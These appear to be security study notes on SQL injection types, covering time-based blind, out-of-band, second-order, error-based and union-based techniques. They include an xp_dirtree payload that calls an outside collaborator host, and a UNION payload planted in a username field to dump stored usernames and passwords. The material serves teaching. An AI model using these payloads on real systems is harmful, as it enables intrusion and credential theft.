 ### Time-based Blind SQLi

- Relies in the database pausing for a specified amount of time, then returning the result, indicating a success SQL query execution
- Ex: if the first character of the administrator’s hashed pass is an “a”, wait 10 seconds.

## Out-of-band (OAST) SQLi

- Consists of triggering an out-of-band network connection to a system that you control
    - Not common, uses variety os protocols (DNS,HTTP)

```sql
'; exec master..xp_dirtree '//434934839493499.burpcollabolator.net/a'--
```

## Second order SQLi

Second order SQLi happens when applications user input gets stored in the database, then retrieved and used unsafely in a SQL query. 
For example consider an app that register an user by specifying username and password, and the user submit the following request:

```sql
POST /register
Host: example.com

(POST body)
username='jesus' UNION SELECT Username, Password FROM Users;-- '&password=jesus123
```

This query has a payload in the username field, later  the malicious user accesses their email with the following GET request:
```bash
GET /emails
Host: example.com
```
If the user doesn't provide a username the app will retrieve the currently logged-in username and use it populate a SQL query:
```sql
SELECT Title, Body FROM Emails WHERE Username='jesus' UNION SELECT Username, Password FROM Users;--
```
But the attacker username contains the payload, so this will return all usernames and password as email titles and bodies in the HTTP response.

## Exploiting the Database

### Exploiting Error-Based SQLi

- Submit SQL-specific characters such as ' or ", and look for error or other anomalies
- Different characters give you different error
  
### Exploiting Union-Based SQLi
There are two rules for combining the result sets of two queries by using **UNION**
- The number and order of the columns must be the same in all queries
- The data types must be compatible
